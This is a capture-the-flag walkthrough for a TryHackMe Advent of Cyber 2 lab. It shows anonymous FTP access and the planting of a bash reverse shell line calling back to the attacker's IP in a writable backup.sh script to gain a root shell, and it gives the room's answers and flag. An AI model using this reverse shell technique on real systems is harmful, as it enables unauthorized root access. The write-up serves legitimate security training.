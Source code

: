 # _**adventofcyber2 Day 9 (FTP +Netcat)**_

    https://tryhackme.com/room/adventofcyber2

`First do FTP to the {machine IP}`

    ftp {machine IP}

`Name :anonymous`

![img.png](Images/img.png)

--------------------------------------------------------
![img_1.png](Images/img_1.png)

`on ftp you can find public directory which has data access`

![img_2.png](Images/img_2.png)

![img_3.png](Images/img_3.png)

    public

--------------------------------------------------------
`let dig in into public directory`
`there you can find two files `

![img_4.png](Images/img_4.png)

`download both of it using command`

    get backup.sh 
    get shoppinglist.txt

`Now let's see our tun0 ip using command`
    
    ifconfig

`copy that tun0 ip and now edit the backup.sh file with reverse shell command`

    bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1

`replace Your_TryHackMe_IP with you tun0 ip`

![img_5.png](Images/img_5.png)

`now listen on port 4444 with netcat command:`

    nc -nvlp 4444

`now on ftp /public directory `
`upload the backup.sh edited file using command`

    put backup.sh

`note you have to be on same directory that you have stored backup.sh edited file before ftp connection`

`now you will get root reverse shell connection on your netcat terminal`

![img_6.png](Images/img_6.png)

--------------------------------------------------------
`let's answers all the questions now`

![img_7.png](Images/img_7.png)

`yoo! easy right`

-----------------------------------------------------------
![img_8.png](Images/img_8.png)

`remember we had downloaded shoppinglist.txt file along with backup.sh`
`time to see what's inside it `

![img_9.png](Images/img_9.png)

`yoo we got our answer`

![img_10.png](Images/img_10.png)

    The Polar Express

--------------------------------------------------------
![img_12.png](Images/img_12.png)

`yoo! we have reverse shell root connection right `

`let's see what's in there`

![img_13.png](Images/img_13.png)

`we got our answer again`

![img_14.png](Images/img_14.png)

    THM{even_you_can_be_santa}
----------------------------------------------------------
# _*Thank You*_


